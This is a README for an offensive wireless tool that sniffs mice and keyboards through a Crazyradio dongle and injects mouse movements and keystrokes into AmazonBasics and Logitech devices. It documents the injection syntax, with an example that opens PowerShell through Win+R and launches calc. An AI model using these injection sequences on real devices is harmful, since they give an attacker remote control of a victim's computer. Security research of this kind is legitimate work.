 A tool set for sniffing devices and launching attacks with Crazyradio.
Based on [BastilleResearch](https://github.com/BastilleResearch/nrf-research-firmware.git "nrf-research-firmware")'s research.

### Setting Up
Install additional modules
```sh
sudo apt-get install sdcc binutils python python-pip
sudo pip install -U pip
sudo pip install -U -I pyusb
sudo pip install -U platformio
```

### Supported Devices
| Device  | Sniff | Attack | Details |
| ----------------- | ----------------- | ----------------- | ----------------- |
| AmazonBasics | Yes(unresponsive) | Yes | Mice control and HID Injection |
| Logitech Mice | Yes | Yes | Mice control |


### How to Use
```sh
sudo python app.py
```

### How to Use Launch Attacks
```sh
# Please check attacking rules in 'devices/*.py' for details
# Further infomation will added to here once I have time
# Attacking thread sleeps for 100 milliseconds
<SLP(100)>
# Move mouse by 100*100 and press Left, Right and Middle buttons
<MOV(100,100,LMR)>
# Release the buttons for mice, you can send another MOV command without any buttons
<MOV(0,0)>
<MOV()>
# Send keystrokes to release all keys
<RLS>
# Send 'Windows + r' key combination
<WIN+r>
# Send 'Ctrl + Alt + Delete' key combination
<CTRL+ALT+DEL>
# Open Powershell and then open Caculator form powershell with Windows computers
<RLS><WIN+r><RLS><SLP(500)><RLS>powershell<ENTER><RLS><SLP(500)><RLS>calc<ENTER><RLS>
```

License
----
GPL
